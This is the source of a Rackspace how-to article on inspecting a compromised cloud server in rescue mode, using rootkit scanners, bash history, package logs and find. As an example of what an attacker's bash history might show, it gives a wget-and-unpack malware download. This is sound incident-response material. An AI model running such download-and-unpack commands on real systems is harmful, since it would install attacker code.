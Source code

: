 ```yaml
---
permalink: check-for-a-security-compromise-rescue-mode-investigation/
audit_date:
title: 'Check for a security compromise: Rescue mode investigation'
type: article
created_date: '2013-04-26'
created_by: Rose Contreras
last_modified_date: '2016-06-10'
last_modified_by: Stephanie Fillmon
product: Cloud Servers
product_url: cloud-servers
---
```


In the article, [Checking for a security compromise: Back doors and intruders](/how-to/checking-for-a-security-compromise-backdoors-and-intruders),
you learned some basic techniques for collecting the information needed to intruders who have compromised your server. This article describes how to use the [Cloud Control Panel's](https://mycloud.rackspace.com/) *Rescue Mode* to take a closer look at your system. You can use rescue mode to better understand how your server was compromised and to identify non-compromised files before backing up the data.

### Activate rescue mode

Because your cloud server's operating system might also be compromised, you cannot rely on it. The intruder could have compromised binaries such as 'ls,' 'find,' and 'netstat,' so their output could mislead you.
Consequently, you must use a different operating system environment to
safely investigate the compromise. You can do this by using the rescue mode feature provided in the [Cloud Control Panel](https://mycloud.rackspace.com/). For instructions and more information, see [Rackspace Cloud Essentials - Rescue Mode on Linux Cloud Servers](/how-to/rackspace-cloud-essentials-rescue-mode-on-linux-cloud-servers).

While your server is in rescue mode, you can perform the following actions to locate the source of the compromise.

### Scan for rootkits

We recommend that you install and use the following tools to scan your system for rootkits.

#### Scan for rootkits with chkrootkit

`chkrootkit` looks for known signatures in compromised binary systems. For example, some compromised versions of `ps` have "`/dev/ptyp`" inside them. We recommend installing `chkrootkit` by using your package manager rather than compiling from source.

1. Run the following command:

        apt-get install chkrootkit

2. Run `chkrootkit` against the mounted file system of the cloud server:

        chkrootkit -r /mnt/demo

The following messages are printed by `chkrootkit` during its tests:

-  `INFECTED` - the test has identified a command probably modified by a known rootkit
-  `not infected` - the test didn't find any known rootkit signature
-  `not tested` - the test was not performed

   This could happen in the following situations:
    - The test is OS specific
    - The test depends on an external program that is not available
    - Some specific command line options are given (for example, `-r`)

-  `not found` - the command to be tested is not found
-  `Vulnerable but disabled` - the command is infected

For more options and information on using `chkrootkit`, see <http://www.chkrootkit.org/README>.

#### Scan for rootkits with rkhunter

Rootkit Hunter (`rkhunter`) checks systems against a database of known rootkits. It can also check other system files to make sure they are in line with expected properties and values.

1. Log in to your terminal application and change to your `sources` directory:

        cd ~/sources

2. Download the latest version of `rkhunter` from the [SourceForge download area](http://sourceforge.net/projects/rkhunter/files/):

        http://sourceforge.net/projects/rkhunter/files/

3. After you install `rkhunter`, run it against `/mnt/demo`.

        rkhunter -c -r /mnt/demo

`rkhunter` produces warnings during the tests that indicate where a file has deviated from expected defaults. Following the test, you can check the log to see more detailed information about which files produced the warning.
For more options and information on using `rkhunter`, see <http://rkhunter.cvs.sourceforge.net/viewvc/rkhunter/rkhunter/files/README>.

### Check last commands

To get an idea of how the cloud server security was breached, check which users ran commands before the cloud server was compromised.

The **.bashhistory** file contains the last commands used with the Bash shell. You need to check the **.bashhistory** files in each user's home directory. The most important **.bashhistory** file is the one belonging to root: **/root/.bashhistory**.

A compromised cloud server might have entries like the following ones:

    wget http://malware.tar.gz
    gunzip malware.tar.gz
    tar xf malware.tar

### Check installed packages

All changes to the packaging system are stored in **/var/log/dpkg.log** on Debian-based distributions. Check this file for any suspicious activity like installed or removed packages, or a modified bus.

Run the following command to show the last 50 lines of the **dpkg.log** file:

    tail 50 /mnt/demo/var/log/dpkg.log

### Use the find command

The `find` command is usually used to find filenames with specific patterns. However, you can also use it to find the files that were modified or accessed within a specific time period.

For example, you can find all files in **/etc** owned by root that have been
modified within the last two days, as follows:

    find /mnt/demo/etc -user root -mtime -2

Available options are as follows:

    -atime: when the file was last accessed
    -ctime: when the file's permissions were last changed
    -mtime: when the file's data was last modified

Note the  minus sign in front of '2' in the preceding example. The 'time' options for the `find` command are expressed in 24-hour increments, and the symbol used in front of the number can indicate *less than* or *greater than*. Thus '-2' means that you want to find files that were modified within the last two days. If you want to find files that were modified more than 2 days ago, use `+2`:

    find /mnt/demo/etc -user root -mtime +2

There are also versions of the `atime`, `ctime`, and `mtime` arguments that
measure time in minutes:

    -amin: when (in minutes) the file was last accessed
    -cmin: when (in minutes) the file's permissions were last changed
    -mmin: when (in minutes) the file's data was last modified

#### Example

Find all of the files in your cloud server owned by the `demo` user
that have been accessed within the last five minutes:

    find /mnt/demo -user demo -amin -5

The following list of `find` command options might be useful while investigating the
compromised cloud server investigation:

    -nouser: shows output not associated with an existing userid
    -nogroup: shows output not associated with an existing groupid
    -links n: file has n links
    -newer file: file was modified more recently than file
    -perm mode: file has mode permissions

### Check logs and suspicious files

You can find an intruder by checking for suspicious files in **/tmp**, **/var/tmp**, **/dev/shm**, **/var/spool/samba**, **/var/spool/squid**, and **/var/spool/cron**.

You can also look at log files in the **/var/log** directory. For example, **auth.log** records user login information, including IP addresses.

### Summary

In [Checking for a security compromise: Backdoors and Intruders](/how-to/checking-for-a-security-compromise-backdoors-and-intruders), you learned some techniques to use to discover back doors and track intruders on your cloud server. This will help you to avoid the situation or
mistake that led to the compromise, minimizing the chance of future compromises. In this article, you learned how to investigate your cloud server in rescue mode.

Whether it is caused by viruses, file corruption, machine failure, or
other unforeseen mishaps, the possibility of data loss is real. To avoid the disruption such a loss can cause, back up your files regularly. Following are some options to help you secure your files:

-   [Rackspace Cloud Backup](http://www.rackspace.com/cloud/backup/) is a good choice for Cloud Servers customers. It is fully integrated with Cloud Servers, and is a file-based backup alternative to whole image server backup.
-   For those who prefer to do it themselves, see [Back up your files with rsync](/how-to/backing-up-your-files-with-rsync).
